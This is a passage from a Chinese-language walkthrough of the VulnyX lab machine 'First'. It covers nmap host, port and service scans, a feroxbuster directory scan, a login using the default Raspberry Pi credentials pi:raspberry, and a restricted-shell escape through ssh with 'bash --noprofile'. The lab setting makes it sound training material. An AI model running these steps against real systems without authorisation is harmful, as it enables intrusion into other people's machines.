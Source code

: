 # 环境

来自[vulnyx_First](https://vulnyx.com/#First)

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```

![image-20240725120255370](image/image-20240725120255370.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.37
```

![image-20240725120346588](image/image-20240725120346588.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p22,80,4369 192.168.88.37
```

## 目录扫描

```bash
feroxbuster -u http://192.168.88.37 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image-20240725124620747](image/image-20240725124620747.png)

# web渗透

## 树莓派默认账号拿shell

访问http://192.168.88.37/tasklist

![image-20240725124809656](image/image-20240725124809656.png)

发现Raspberry(树莓派)，盲猜开发者可能没改默认密码，google查找raspberry的默认账号密码`pi:raspberry`

![image-20240725125218251](image/image-20240725125218251.png)

但是拿到的shell是rbash，受限

```bash
ssh pi@192.168.88.37 -t 'bash --noprofile'
```


